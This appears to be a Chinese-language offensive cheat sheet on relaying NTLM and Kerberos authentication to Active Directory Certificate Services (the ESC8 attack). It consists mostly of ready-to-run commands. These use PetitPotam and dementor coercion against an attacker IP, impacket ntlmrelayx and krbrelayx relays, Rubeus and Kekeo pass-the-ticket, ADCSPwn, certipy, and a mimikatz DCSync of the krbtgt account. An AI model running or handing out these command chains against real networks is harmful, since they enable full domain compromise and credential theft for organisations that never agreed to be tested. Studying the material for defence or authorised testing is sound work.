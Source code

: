 	攻击者可以使用 PetitPotam 触发域控制器，将 NTLM 凭据中继到选择的主机。然后可以将域控制器的 NTLM 凭据中继到 Active Directory 证书服务 (AD CS) Web 注册页面，并且可以注册 DC 证书。然后，此证书可用于请求 TGT（Ticket Granting Ticket）并通过 Pass-The-Ticket 破坏整个域。
	https://github.com/SecureAuthCorp/impacket/pull/1101
  #### NTLM 中继 + Rubeus + PetitPotam
  ```bash
impacket> python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template VulnTemplate
对于成员服务器或工作站，模板为 "Computer".
其他模板：工作站、域控制器、机器、KerberosAuthentication

使用 petitpotam 通过 MS-ESFRPC EfsRpcOpenFileRaw 函数强制进行身份验证
您还可以使用任何其他方式通过 MS-RPRN 强制进行身份验证，例如 PrintSpooler
git clone https://github.com/topotam/PetitPotam
python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
python3 dementor.py 10.10.10.250 10.10.10.10 -u user1 -p Password1 -d lab.local

使用带有 rubeus 的证书来请求 TGT
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzC...mUUXS /ptt

现在您可以使用 TGT 执行 DCSync
mimikatz> lsadump::dcsync /user:krbtgt
```
  #### NTLM 中继 + Mimikatz + Kekeo
``` bash
impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

Mimikatz
mimikatz> misc::efs /server:dc.lab.local /connect:<IP> /noauth

Kekeo
kekeo> base64 /input:on
kekeo> tgt::ask /pfx:<BASE64-CERT-FROM-NTLMRELAY> /user:dc$ /domain:lab.local /ptt

Mimikatz
mimikatz> lsadump::dcsync /user:krbtgt
```
  #### Kerberos 中继
	>sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
	>sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
  #### DCSPwn - 需要WebClient在域控制器上运行的服务。默认情况下未安装此服务。
  	https://github.com/bats3c/ADCSPwn
	>adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]
	>adcspwn.exe --adcs cs.pwnlab.local
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local
  #### Certipy ESC8
  	>certipy relay -ca 172.16.19.100